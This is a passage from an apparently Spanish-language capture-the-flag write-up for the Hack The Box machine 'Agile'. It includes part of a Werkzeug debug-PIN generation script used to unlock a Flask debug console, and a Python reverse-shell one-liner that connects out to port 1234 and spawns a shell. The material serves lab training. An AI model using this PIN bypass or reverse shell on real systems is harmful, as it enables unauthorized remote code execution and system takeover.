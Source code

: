 ```py
    h.update(b'pinsalt')
    num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv =None
if rv is None:
    for group_size in 5, 4, 3:
        if len(num) % group_size == 0:
            rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                          for x in range(0, len(num), group_size))
            break
    else:
        rv = num

print(rv)
```

Tendriamos que ejecutarlo con nuestros parametros y obtener el codigo **PIN**, para habilitar la consola en el modo **debug**, dentro de la pagina.

Procedemos a ver si podemos ejecutar comandos de forma remota y de paso a asegurar si podemos efectuar conexiones remotas:
![](/assets/img/HTB_Agile/A14.png)
![](/assets/img/HTB_Agile/A15.png)

Como podemos comprobar que si, vamos a tirarnos una reverse shell:

```py
import os,pty,socket;s=socket.socket();s.connect(("",1234));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")
```
![](/assets/img/HTB_Agile/A16.png)